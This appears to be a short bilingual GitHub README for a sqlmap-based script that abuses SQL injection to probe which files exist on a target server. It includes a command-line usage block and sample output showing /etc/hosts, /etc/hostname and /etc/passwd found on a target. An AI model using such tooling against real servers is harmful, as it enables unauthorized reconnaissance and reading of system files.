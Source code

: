# FileReader
基于sqlmap的利用sql注入漏洞遍历文件是否存在的脚本  
A script based on sqlmap that uses sql injection vulnerabilities to traverse the existence of a file

## usage
需要注意，在盲注时如果开启多线程会导致不稳定  
It should be noted that if multi-threading is enabled during blind injection, it will cause instability
```
usage: test2.py [-h] [-u URL | -r HEADERS_DATA] [-w FILE] [-t THREADS]

By zongdeiqianxing; Email: jshahjk@163.com

optional arguments:
  -h, --help       show this help message and exit
  -u URL
  -r HEADERS_DATA  HTTP request header
  -w FILE          wordlist containing file path
  -t THREADS       threads count
```

## show
```
$ python3 TraverseFilesBySQLInjection.py -r 1.txt -w linux.txt 
2021-10-23 23:01:51,211 - __main__ - INFO - The program has been started, if found readable files, it will be displayed, please wait..
2021-10-23 23:02:21,234 - __main__ - INFO - /etc/hosts file exists
2021-10-23 23:02:41,058 - __main__ - INFO - /etc/hostname file exists
2021-10-23 23:03:00,863 - __main__ - INFO - /etc/passwd file exists
```
